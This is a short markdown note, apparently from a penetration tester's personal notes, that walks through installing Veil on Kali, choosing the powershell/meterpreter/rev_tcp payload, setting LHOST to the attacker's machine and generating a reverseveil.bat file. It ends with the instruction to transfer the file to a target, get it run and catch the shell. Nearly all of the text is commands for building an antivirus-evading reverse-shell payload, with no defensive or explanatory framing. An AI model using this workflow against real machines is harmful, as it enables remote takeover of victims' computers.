 ```bash - kali
sudo apt install veil
```

```bash - kali
veil
```

Next through all the prompts if setting up for the first time.

If told to, run:
```bash - kali
/usr/share/veil/config/setup.sh --force --silent
```

```bash - kali
use 1
```

```bash - kali
list
```

example: `powershell/meterpreter/rev_tcp.py`

```bash - kali
use 22
```

```bash - kali
set LHOST $KALI
```

```bash - kali
options
```

```bash - kali
generate
```

```bash - kali
reverseveil
```

```bash - kali
cp /var/lib/veil/output/source/reverseveil.bat .
```

[[APON/6._Tools/Metasploit#Meterpreter Listener 1 Liner]]

Transfer to target, get it ran, catch shell.






